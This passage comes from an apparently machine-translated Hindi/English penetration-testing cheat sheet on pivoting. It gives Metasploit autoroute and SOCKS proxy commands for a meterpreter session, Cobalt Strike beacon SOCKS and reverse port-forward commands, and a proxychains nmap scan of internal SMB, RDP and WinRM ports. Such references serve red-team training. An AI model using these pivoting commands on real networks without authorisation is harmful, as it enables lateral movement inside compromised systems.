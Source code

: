 ```bash
background #meterpreter session
use post/multi/manage/autoroute
set SESSION <session_n>
set SUBNET <New_net_ip> #Ex: set SUBNET 10.1.13.0
set NETMASK <Netmask>
run
use auxiliary/server/socks_proxy
set VERSION 4a
run #Proxy port 1080 by default
echo "socks4 127.0.0.1 1080" > /etc/proxychains.conf #Proxychains
```
## Cobalt Strike

### SOCKS प्रॉक्सी

टीमसर्वर में एक पोर्ट खोलें जो सभी इंटरफेस में सुन रहा हो जिसे **बीकन के माध्यम से ट्रैफ़िक रूट करने के लिए** उपयोग किया जा सके।
```bash
beacon> socks 1080
[+] started SOCKS4a server on: 1080

# Set port 1080 as proxy server in proxychains.conf
proxychains nmap -n -Pn -sT -p445,3389,5985 10.10.17.25
```
### rPort2Port

{% hint style="warning" %}
इस मामले में, **पोर्ट बीकन होस्ट में खोला जाता है**, टीम सर्वर में नहीं और ट्रैफ़िक टीम सर्वर को भेजा जाता है और वहां से निर्दिष्ट होस्ट:पोर्ट पर भेजा जाता है।
{% endhint %}
```bash
rportfwd [bind port] [forward host] [forward port]
rportfwd stop [bind port]
```
To note:

* Beacon's reverse port forward is designed to **ट्रैफ़िक को टीम सर्वर की ओर टनल करना, व्यक्तिगत मशीनों के बीच रिले करने के लिए नहीं**।
* ट्रैफ़िक **बीकन के C2 ट्रैफ़िक के भीतर टनल किया जाता है**, जिसमें P2P लिंक शामिल हैं।
* **एडमिन विशेषाधिकार की आवश्यकता नहीं है** उच्च पोर्ट पर रिवर्स पोर्ट फॉरवर्ड बनाने के लिए।

### rPort2Port local

{% hint style="warning" %}
In this case, the **पोर्ट बीकन होस्ट में खोला जाता है**, टीम सर्वर में नहीं और **ट्रैफ़िक को कोबाल्ट स्ट्राइक क्लाइंट की ओर भेजा जाता है** (टीम सर्वर की ओर नहीं) और वहां से निर्दिष्ट होस्ट:पोर्ट की ओर।
{% endhint %}
```
rportfwd_local [bind port] [forward host] [forward port]
rportfwd_local stop [bind port]
```
## reGeorg
